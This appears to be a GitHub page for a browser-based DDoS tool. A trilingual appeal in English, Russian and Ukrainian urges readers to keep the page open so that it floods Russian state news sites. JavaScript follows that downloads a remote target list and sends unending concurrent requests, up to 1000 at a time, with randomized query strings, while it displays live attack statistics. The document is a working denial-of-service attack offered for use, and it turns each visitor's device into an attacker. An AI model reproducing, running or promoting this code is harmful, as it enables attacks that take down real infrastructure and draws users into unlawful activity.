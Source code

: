 | English version | Русская версия | Українська версія |
| --------------- | -------------- | ----------------- |
| The "official" news in the Russian Federation is mostly fake and we believe it is better to shut them down and let people switch to trustful news. Please, just open this page and let it be open on your devices. It will flood the Russian propaganda websites and pose a huge load on their infrastructure. Your browser will be slow. It's ok, don't worry and keep it run. A small contribution from each of us will save Ukraine 🙏 | «Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям переключиться на достоверные новости. Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские пропагандистские сайты запросами и создаст огромную нагрузку на их инфраструктуру. Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его открытым. Небольшой вклад каждого из нас спасет Украину 🙏 | «Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися на достовірні новини. Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські пропагандистські сайти запитами та створить величезне навантаження на їхню інфраструктуру. Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його відкритим. Невеликий внесок кожного з нас врятує Україну 🙏 |

<body>
    <div id="stats"></div>
    <script>
        const ERROR_SYMBOL = "❌";
        const SUCCESS_SYMBOL = "✔️"
        const NO_RESPONSE_SYMBOL = "☠️";
        let targetsURL = 'https://raw.githubusercontent.com/anondevua/anondevua.github.io/main/ddos/targets.txt';
        const updateInterval = 500;
        const fetchTimeout = 1000;
        const CONCURRENCY_LIMIT = 1000;
        var targetStats = {}
        var statsEl = document.getElementById('stats');
        function printStats() {
            for (var [target, stats] of Object.entries(targetStats)) {
                stats.last_responses = stats.last_responses.slice(-20)
            }
            var table_body = Object.entries(targetStats).map(
                ([target, { number_of_requests, number_of_errored_responses, last_responses }]) => 
                '<tr style="background-color:' + 
                    (last_responses.includes(ERROR_SYMBOL) ? '#FF4500' : 
                        last_responses.includes(SUCCESS_SYMBOL) ? '#3CB371' : '#FFEFD5') + 
                '"><td>' + target + 
                '</td><td>' + number_of_requests + 
                '</td><td>' + number_of_errored_responses + 
                '</td><td>' + last_responses.join('') + 
                '</td></tr>'
            ).join('')
            statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th><th>Responses</th></tr></thead><tbody>' + table_body + '</tbody></table>'
        }
        setInterval(printStats, updateInterval);
        var queue = []
        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                method: 'GET',
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }
        async function flood(target) {
            for (var i = 0; ; ++i) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift()
                }
                rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: fetchTimeout })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targetStats[target].number_of_errored_responses++;
                            targetStats[target].last_responses.push(ERROR_SYMBOL);
                        })
                        .then((response) => {
                            if (response) {
                                if (!response.ok) {
                                    targetStats[target].number_of_errored_responses++;
                                    targetStats[target].last_responses.push(NO_RESPONSE_SYMBOL);
                                }
                            }
                            targetStats[target].last_responses.push(SUCCESS_SYMBOL);
                            targetStats[target].number_of_requests++;
                        })
                )
            }
        }
        fetch(targetsURL).then((r) => {
            r.text().then((d) => {
                let targets = d.split('\n');
                targets.forEach((target) => {
                    targetStats[target] = {
                        number_of_requests: 0,
                        number_of_errored_responses: 0,
                        last_responses: []
                    }
                })
                targets.map(flood)
            })
        })
    </script>
</body>